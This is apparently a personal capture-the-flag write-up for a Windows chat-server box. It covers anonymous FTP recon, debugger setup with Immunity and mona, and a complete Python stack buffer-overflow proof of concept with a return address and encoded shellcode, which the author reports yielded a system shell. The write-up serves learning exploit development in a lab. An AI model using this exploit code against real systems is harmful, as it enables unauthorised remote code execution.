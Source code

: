 # Brainstorm

## Recon
### Scan

This room is a bit challenging. The scan shows ftp (21) and some chat client (9999). I only see these two, but apparently there are 6. Must be some UDP ports I missed.

### Explore the services

#### FTP
Anonymous login is allowed. I logged in with user `ftp` and pass `ftp` but kept hitting an error about **Extended Passive Mode.**. I did some reasearch to refresh my memory on what this was.
```bash
ftp 10.10.109.7
Connected to 10.10.109.7.
220 Microsoft FTP Service
Name (10.10.109.7:nate): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49356|) 
```

Long story short, you need to force active mode since passive mode is failing. I spent a lot of time googling this error and reading about how to fix it. But the answer was right in the damn man page; need to force active mode with the `-A` flag.

```bash
ftp 10.10.109.7 -A                                                      
Connected to 10.10.109.7.                                                                                      
220 Microsoft FTP Service
Name (10.10.109.7:nate): ftp                                                                                   
331 Anonymous access allowed, send identity (e-mail name) as password.                                         
Password:                                                                                                      
230 User logged in.                                                                                            
Remote system type is Windows_NT.                                                                              
ftp> ls                                                                                                        
200 EPRT command successful.
150 Opening ASCII mode data connection.
08-29-19  07:36PM       <DIR>          chatserver
226 Transfer complete.
```

Great, it's working now and I see a folder.

```bash
ftp> cd chatserver
250 CWD command successful. 
ftp> ls
200 EPRT command successful.
150 Opening ASCII mode data connection.
08-29-19  09:26PM                43747 chatserver.exe
08-29-19  09:27PM                30761 essfunc.dll
226 Transfer complete.
```

Find `chatserver.exe` and download it for later.

```bash
ftp> get chatserver.exe
local: chatserver.exe remote: chatserver.exe
200 EPRT command successful.
150 Opening ASCII mode data connection.
100% |******************************************************************| 43747       43.33 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 45 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
43747 bytes received in 00:00 (43.31 KiB/s)
```

Crap, I've ran into this before. Need to use `binary` to transfer executables.

```bash
ftp> binary
200 Type set to I.
ftp> get chatserver.exe
local: chatserver.exe remote: chatserver.exe
200 EPRT command successful.
125 Data connection already open; Transfer starting.
100% |******************************************************************| 43747       43.87 KiB/s    00:00 ETA
226 Transfer complete.
```

## Exploit Development
### Setting up the Dev environment

#### Setting up the sandbox

Now I'll set up a Windows Dev environment in Windows Sandbox (I don't want to run this executable on my PC.)

It appears to be working. Will not have to to do anything crafty with the network.

![[Pasted image 20220210233944.png]]

#### Immunity and python

Then install immunity, which also installs python. The python installer failed the first time around so I selected "Install just for this user" the second time around. Not sure if it was coincidence or lucky guess but it worked. Lets get crackin!

Actually immunity wouldn't boot as it coulnd't find the python files. So I'm moving this project to a dev version of Windows 11 I have installed in the lab. It'll be a good first look at Windows 11 anyways. EDIT: Turns out it had nothing to do with the sandbox. It's possible this would have worked if I did all the below fixes, but everything is lost from a sandbox when the session is closed. It's probably better to use a VM anyways so I can maintain the debugging environment.

I was able to get everything working in Windows 11. Had to configure Windows firewall to allow port 9999 though.

Everything is working!

![[Pasted image 20220211005230.png]]

Seems like the overflow will be in the username. Lets fire up the tool.

#### Mona

Looks like I spoke too soon about everything working. I got an error when trying to run a `!mona` command.

> pycommands: error importing module

I see online this error is from using the 64-bit python and using a 32bit version should fix it. So...reinstall python with x86 version.

Also, I need to install [mona](https://github.com/corelan/mona). Wow, setting up this environment is a PITA - it was nice having a box ready on TryHackMe for the other challenges. I'll have to save this setup.

Another issue - since the file was downloaded from the internet, it has to be marked as safe in the file properties before it can be used.

![[Pasted image 20220211015656.png]]

Another issue I ran into was the `mona.py` file was full of HTML as I downloaded it incorrectly. Found that [here on github](https://github.com/corelan/mona/issues/15)

#### I never want to go through this again

IT WORKS!!!!

Getting a snapshot...

### Develop the exploit

I used the buffer overflow helper script I made and got this box done MUCH quicker than I was able to get the DEV environment set up. 
![[Pasted image 20220211021145.png]]

I never turned off Windows AV module so I only had access for a bit before getting kicked.

![[Pasted image 20220211021322.png]]

The completed POC exploit is as follows:

```python3
#!/usr/bin/env python3

import socket

ip = "192.168.1.104"
port = 9999

prefix = " "
offset = 6107
overflow = "A" * offset
retn = "\xdf\x14\x50\x62"
padding = "\x90" * 16
payload = "\xbd\xcf\xbb\xca\x95\xdb\xc2\xd9\x74\x24\xf4\x58\x33\xc9\xb1\x52\x31\x68\x12\x03\x68\x12\x83\x27\x47\x28\x60\x4b\x50\x2f\x8b\xb3\xa1\x50\x05\x56\x90\x50\x71\x13\x83\x60\xf1\x71\x28\x0a\x57\x61\xbb\x7e\x70\x86\x0c\x34\xa6\xa9\x8d\x65\x9a\xa8\x0d\x74\xcf\x0a\x2f\xb7\x02\x4b\x68\xaa\xef\x19\x21\xa0\x42\x8d\x46\xfc\x5e\x26\x14\x10\xe7\xdb\xed\x13\xc6\x4a\x65\x4a\xc8\x6d\xaa\xe6\x41\x75\xaf\xc3\x18\x0e\x1b\xbf\x9a\xc6\x55\x40\x30\x27\x5a\xb3\x48\x60\x5d\x2c\x3f\x98\x9d\xd1\x38\x5f\xdf\x0d\xcc\x7b\x47\xc5\x76\xa7\x79\x0a\xe0\x2c\x75\xe7\x66\x6a\x9a\xf6\xab\x01\xa6\x73\x4a\xc5\x2e\xc7\x69\xc1\x6b\x93\x10\x50\xd6\x72\x2c\x82\xb9\x2b\x88\xc9\x54\x3f\xa1\x90\x30\x8c\x88\x2a\xc1\x9a\x9b\x59\xf3\x05\x30\xf5\xbf\xce\x9e\x02\xbf\xe4\x67\x9c\x3e\x07\x98\xb5\x84\x53\xc8\xad\x2d\xdc\x83\x2d\xd1\x09\x03\x7d\x7d\xe2\xe4\x2d\x3d\x52\x8d\x27\xb2\x8d\xad\x48\x18\xa6\x44\xb3\xcb\x09\x30\xba\x7b\xe2\x43\xbc\x6a\xae\xca\x5a\xe6\x5e\x9b\xf5\x9f\xc7\x86\x8d\x3e\x07\x1d\xe8\x01\x83\x92\x0d\xcf\x64\xde\x1d\xb8\x84\x95\x7f\x6f\x9a\x03\x17\xf3\x09\xc8\xe7\x7a\x32\x47\xb0\x2b\x84\x9e\x54\xc6\xbf\x08\x4a\x1b\x59\x72\xce\xc0\x9a\x7d\xcf\x85\xa7\x59\xdf\x53\x27\xe6\x8b\x0b\x7e\xb0\x65\xea\x28\x72\xdf\xa4\x87\xdc\xb7\x31\xe4\xde\xc1\x3d\x21\xa9\x2d\x8f\x9c\xec\x52\x20\x49\xf9\x2b\x5c\xe9\x06\xe6\xe4\x09\xe5\x22\x11\xa2\xb0\xa7\x98\xaf\x42\x12\xde\xc9\xc0\x96\x9f\x2d\xd8\xd3\x9a\x6a\x5e\x08\xd7\xe3\x0b\x2e\x44\x03\x1e;"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  
```


## Exploit the target

Now to swap out the payload (line 15) and the RHOST IP (line 5).

Time to test the exploit.

Nice, I got a system shell!

![[Pasted image 20220211023245.png]]